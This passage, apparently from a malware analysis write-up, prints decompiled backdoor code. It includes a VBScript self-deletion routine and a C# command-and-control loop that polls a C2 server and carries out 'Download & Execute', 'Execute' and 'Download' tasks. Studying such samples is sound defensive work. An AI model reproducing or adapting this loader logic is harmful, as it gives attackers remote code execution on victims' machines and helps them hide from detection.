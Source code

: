 ```vb
End sub

Set objFSO = CreateObject("Scripting.FileSystemObject")
objFSO.DeleteFile WScript.ScriptFullName
WScript.Quit()
```

<h6>Inside, we see that the commands possible on the backdoor are the same too, this uses a flag as condition of the connection to C2.</h6>

```csharp
try
{
 Dictionary<string, string> dictionary = Loader.JsonParse(json);
 HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create(Loader.server);
 httpWebRequest.Headers.Add("UUID", Loader.GetUUID());
 httpWebRequest.Headers.Add("Completed", dictionary["TaskID"]);
 httpWebRequest.Method = "POST";
 bool flag = false;
 string text = dictionary["Type"];
 if (text != null)
 {
  if (text == "Download & Execute")
  {
   flag = Loader.Download(Loader.defaultPath, dictionary["Content"]);
   Console.WriteLine(string.Concat(new object[] { "DL <", dictionary["Content"], "> result: ", flag }));
   if (flag) { flag = Loader.Run(Loader.defaultPath, Loader.GetFilenameFromURL(dictionary["Content"])); }
   goto flag_C2;
  }
  if (text == "Execute")
  {
   flag = Loader.Execute(dictionary["Content"]);
   goto flag_C2;
  }
  if (text == "Download")
  {
   flag = Loader.Download(Loader.defaultPath, dictionary["Content"]);
   goto flag_C2;
  }
  if (text == "Terminate")
  {
   Loader.terminate = true;
   flag = Loader.terminate;
   goto flag_C2;
  }
  if (text == "Autorun") { goto flag_C2; }
 }
 flag = false;
 flag_C2:
 if (flag)
 {
  HttpWebResponse httpWebResponse = (HttpWebResponse)httpWebRequest.GetResponse();
  StreamReader streamReader = new StreamReader(httpWebResponse.GetResponseStream());
  string text2 = streamReader.ReadToEnd();
 }
 else
 {
  httpWebRequest.Headers.Add("Error", "true");
  HttpWebResponse httpWebResponse = (HttpWebResponse)httpWebRequest.GetResponse();
 }
}
catch{Console.WriteLine("[INFO] No Available Tasks");}
```